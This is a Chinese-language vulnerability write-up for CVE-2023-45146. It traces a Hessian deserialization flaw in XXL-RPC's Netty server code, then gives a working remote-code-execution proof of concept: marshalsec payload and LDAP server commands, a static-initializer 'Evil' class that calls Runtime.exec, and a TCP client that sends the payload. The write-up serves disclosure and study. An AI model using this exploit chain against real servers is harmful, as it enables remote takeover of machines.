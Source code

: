 ```yaml
---
title: "CVE-2023-45146"
author: ["4shen0ne"]
draft: false
---
```


XXL-RPC 框架存在反序列化漏洞，攻击者可通过恶意序列化对象远程执行任意代码，控制服
务器所在的机器

XXL-RPC 可以通过以下代码设置服务器和反序列化器

```java
XxlRpcProviderFactory providerFactory = new XxlRpcProviderFactory();
providerFactory.setServer(NettyServer.class);
providerFactory.setSerializer(HessianSerializer.class);
```


## NettyServer 使用 NettyDecoder 反序列化数据的关键代码 {#nettyserver-使用-nettydecoder-反序列化数据的关键代码}

1.  [xxl-rpc-core/src/main/java/com/xxl/rpc/core/remoting/net/impl/netty/server/NettyServer.java:57](https://github.com/xuxueli/xxl-rpc/blob/eeaa1bd7fc8f2249de13f971dda4f6689d66f318/xxl-rpc-core/src/main/java/com/xxl/rpc/core/remoting/net/impl/netty/server/NettyServer.java#L57)

<!--listend-->

```java
channel.pipeline()
        // --snip--
        .addLast(new NettyDecoder(XxlRpcRequest.class, xxlRpcProviderFactory.getSerializerInstance()))
```

1.  [xxl-rpc-core/src/main/java/com/xxl/rpc/core/remoting/net/impl/netty/codec/NettyDecoder.java:15-45](https://github.com/xuxueli/xxl-rpc/blob/eeaa1bd7fc8f2249de13f971dda4f6689d66f318/xxl-rpc-core/src/main/java/com/xxl/rpc/core/remoting/net/impl/netty/codec/NettyDecoder.java#L15-L45)

<!--listend-->

```java
public class NettyDecoder extends ByteToMessageDecoder {

    // --snip--

    @Override
    public final void decode(ChannelHandlerContext ctx, ByteBuf in, List<Object> out) throws Exception {
        // --snip--
        int dataLength = in.readInt();
        if (dataLength < 0) {
            ctx.close();
        }
        // --snip--
        byte[] data = new byte[dataLength];
        in.readBytes(data);

        Object obj = serializer.deserialize(data, genericClass);
        out.add(obj);
    }
}
```

1.  [xxl-rpc-core/src/main/java/com/xxl/rpc/core/serialize/impl/HessianSerializer.java:45](https://github.com/xuxueli/xxl-rpc/blob/eeaa1bd7fc8f2249de13f971dda4f6689d66f318/xxl-rpc-core/src/main/java/com/xxl/rpc/core/serialize/impl/HessianSerializer.java#L45)

<!--listend-->

```java
@Override
public <T> Object deserialize(byte[] bytes, Class<T> clazz) {
    ByteArrayInputStream is = new ByteArrayInputStream(bytes);
    Hessian2Input hi = new Hessian2Input(is);
    try {
        Object result = hi.readObject();
        return result;
    }
    // --snip--
}
```

可以看到调用了 Hessian2Input.readObject 来进行反序列化，而且 XXL-RPC 使用的反序
列化实现库并不安全，容易受到反序列化攻击


## RCE Proof of Concept {#rce-proof-of-concept}

想要命令执行，目标需要满足两个条件

1.  依赖中包含 Rome

<!--listend-->

```xml
<dependency>
  <groupId>com.rometools</groupId>
  <artifactId>rome</artifactId>
  <version>1.7.0</version>
</dependency>
```

1.  -Dcom.sun.jndi.ldap.object.trustURLCodebase=true

漏洞利用过程：

1.  java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian2 Rome ldap://localhost:1389 &gt; payload.bin

2.  java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer <http://localhost:8000/%5C#Evil> 1389

3.  通过 http 服务提供的恶意 class 文件，源码如下

<!--listend-->

```java
public class Evil {
    static {
        try {
            Runtime.getRuntime()
                    .exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator");
        } catch (Exception e) {
        }
    }
}
```

1.  发送 TCP 请求到 Netty 服务器，触发 RCE

<!--listend-->

```java
import java.io.DataOutputStream;
import java.net.Socket;
import java.nio.file.Files;
import java.nio.file.Paths;


public class TcpClient {

    public static void main(String[] args) {
        try {
            byte[] DESERIALIZATION_PAYLOAD = Files.readAllBytes(Paths.get("payload.bin"));
            Socket socket = new Socket("localhost", 7080);
            DataOutputStream out = new DataOutputStream(socket.getOutputStream());
            out.writeInt(DESERIALIZATION_PAYLOAD.length);
            out.write(DESERIALIZATION_PAYLOAD);
            out.flush();
            socket.close();
        } catch (Exception ex) {
            System.err.println(ex);
        }
    }
}
```
